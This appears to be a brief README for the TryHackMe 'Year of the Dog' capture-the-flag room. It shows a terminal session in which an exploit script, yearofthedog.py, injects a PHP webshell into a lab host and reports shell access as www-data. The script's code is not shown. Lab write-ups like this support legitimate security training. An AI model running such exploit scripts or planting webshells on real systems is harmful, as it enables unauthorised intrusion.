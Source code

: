 
Year of the dog!

- [THM BOX](https://tryhackme.com/room/yearofthedog)

```sh
┌──(root㉿kali)-[/year_of_the_dog]
└─# ./yearofthedog.py -u http://10.10.176.81
[*] Injecting webshell at http://10.10.176.81/b015954c.php
[*] Success! We got a webshell as www-data
```
